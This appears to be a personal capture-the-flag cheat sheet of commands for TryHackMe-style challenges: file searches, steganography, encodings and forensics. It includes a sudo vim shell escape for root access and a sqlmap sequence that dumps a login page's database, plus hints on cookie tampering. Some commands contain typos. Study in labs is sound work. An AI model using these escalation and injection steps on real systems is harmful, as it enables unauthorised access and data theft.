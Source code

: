 
Privilege Escalation
```
sudo -l     ..get /usr/bin/vim
sudo vim  
:!bash
```
ssh:
```
ssh solace@128.09.78.8
ssh -p 2222 solace@128.09.78.8
```
ftp:
```
ftp 123.87.4.8
password: anonymous
```
Open VPN:
```
sudo openvpn <VPNfile>
```
find
```bash
find / -name "*.conf" 2>/dev/null
find / -type d -name "*sol*"
find / -type f -name "*.conf"

find / -type f \( -name 8V2L -o -name bny0 -o -name c4ZX -o -name D8B3 -o -name FHl1 -o -name oiM0 -o -name PFbD -o -name rmfX -o -name SRSq -o -name uqyw -o -name v2Vb -o -name X1Uy \) 2>/dev/null

find / -type f \( -name 8V2L -o -name bny0 -o -name c4ZX -o -name D8B3 -o -name FHl1 -o -name oiM0 -o -name PFbD -o -name rmfX -o -name SRSq -o -name uqyw -o -name v2Vb -o -name X1Uy \) -exec ls -l {} \; 2>/dev/null

-o or, -exec standard input for ls

-exec grep -E -o “([0–9]{1,3}[\.]){3}[0–9]{1,3}” *   use for greping IP

-exec ls -ln
-exec sha1sum
-exec ls -ln
```
group and user of files:
```bash
ls -l
find / -group GroupName 2>/dev/null
```
decrypt:
```bash
echo "hsgagjxmskajj==" | base64 -d

```
steghide:
```bash
steghide extract -sf image.jpg -p "password"

steghide extract -sf image.jpg -p ""

steghide extract -sf image.jpg -p "password" -f

steghide embed -cf cover.jpg -ef secret.txt -p "password"

steghide embed -cf cover.jpg -ef secret.txt -p ""

steghide embed -cf cover.jpg -ef secret.txt -p "password" -z 9
```

metadata website:
https://jimpl.com/  meta data finder for images.

reverse and read:
```bash
file <fileName>
strings <fileName> | grep "flag{"
```

NB. For **rot13** use cyberchef also, then click amount!

Accidentally missed up with PNG file:
```bash
xxs --plain spoil.png | cat
check the standard magic number of png from google
Then edit the first 16 hex digits with cyberchef with HEX recip
```

Hidden flag inside THM social acount:
```
Check google dorking:
site:"reddit.com" & intext:"THM"
```

BrainFuck/ BinaryFuck:
- like:
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.
```
- To decode it use site: https://www.dcode.fr/brainfuck-language?__r=1.cba1266e5afa8a0195e2a4ef9f78fd8f

If S1, S2....then crack values:
- Use **XOR** online calculator
- NB. You need to use the output as ASCII (base256) to get the flag.

**Exfilterate** file/image:
```
binwalk -B image.jpg
cp image.jpj image.zip
unzip image.jpg
cat <newTXTfile>
```

**StegSolver**: if the image is dark, to look the data
```bash
>	wget http://www.caesum.com/handbook/Stegsolve.jar -O stegsolve.jar
>	chmod +x stegsolve.jar
>	java -jar stegsolver.jar
>	# In CTF/tools!
```

Wayback Machine: for time travel
https://web.archive.org

Vigenere Decode:
- Try to insert the key, and decipher the text
- Use CyberChef
- eg. search "Vigenere Decode", add key "THM", decode "MYKAHODTQ{something}"  - then look the result

If you get Decimal number and to convert to text:
- use: https://www.rapidtables.com/convert/number/decimal-to-hex.html
- first convert: Decimal to Hexadecimal,
- Then convert: Hexadecimal to Text

Wifi password Capture using Wireshark:
- use `http.request.method==GET`
- Then, follow -> Http Stream -> get the flag


**NB**. Save your **IP** in `/etc/hosts`. 

VIM `:%!`

**NB**. Sometimes decode the encoding many times, by drag and drop the reciep again and again. 
- **eg**. Base64 (x4), This gives the final result. or the hidden folder name.
	- Then check the source code of that hidden path or do any thing you want.

SQLmap:
- Using burp capture the POST request for login page then, select whole request -> rightClick and then copy to file request.txt, then:
```bash
>	sqlmap -r request.txt --dbs --level 3 --risk 3
sqlmap -r request.txt  --level 3 --risk 3 -D THM_f0und_m3 --tables
>	sqlmap -r request.txt  --level 3 --risk 3 -D THM_f0und_m3 -T nothing_inside --columns
>	sqlmap -r request.txt  --level 3 --risk 3 -D THM_f0und_m3 -T nothing_inside --dump-all
```
These commands helped me to enumerate the database, FLAG:
- `THM_f0und_m3` is in my case, so use your retrieved found Database (from the results of the first command).
- `nothing_inside` is a table retrieved result.
- For other additional username and password attack you can continue.
- Using credentials you can logedin 
	- and also look for the response, after successful.
- Check by changing cookie or other header values eg. from 0 to 1

Sometimes by the response hint add some headers like:
- Referer: example.com
- etc..

Using https://rapidtables.com **bin->dec->hex->text**

